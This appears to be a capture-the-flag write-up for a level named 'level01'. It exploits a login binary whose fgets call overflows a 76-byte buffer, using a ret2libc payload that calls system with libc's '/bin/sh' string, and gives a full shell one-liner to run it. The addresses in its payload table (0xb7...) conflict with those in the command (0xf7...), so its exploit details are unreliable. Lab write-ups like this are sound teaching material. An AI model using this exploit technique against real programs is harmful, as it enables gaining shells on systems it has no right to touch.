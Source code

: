 ## fgets overflow (level01)

This [binary](source.c) is supposed to be a login prompt. I takes a username
which is compared to "dat\_wil" to be verified and then it takes as password.
The password does not matter as it does not lead to anything either way, but the
`fgets` call is faulty. It reads up to 100 characters into a 76 bytes buffer.

We skip the 4 bytes of the ebp, and then we reach the return address of _main_.
All we have to do is a 
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/) exploit.

### Payload

| padding (80) | system (4) | exit (4)   | libc's "/bin/sh" string |
|--------------|------------|------------|-------------------------|
| 0x616161...  | 0xb7e6aed0 | 0xb7e5eb70 | 0xf7f897ec              |

> The libc contains a "/bin/sh" string to implement the `system` function, since
> it is a wrapper around an execl call with "/bin/sh" as parameter. To find it,
> the following gdb command was used: `find &system,+9999999,"/bin/sh"` which
> looks for the given string from the address of system to as far as it can.

```shell
(echo 'dat_wil'; python -c 'print "a" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level01
```
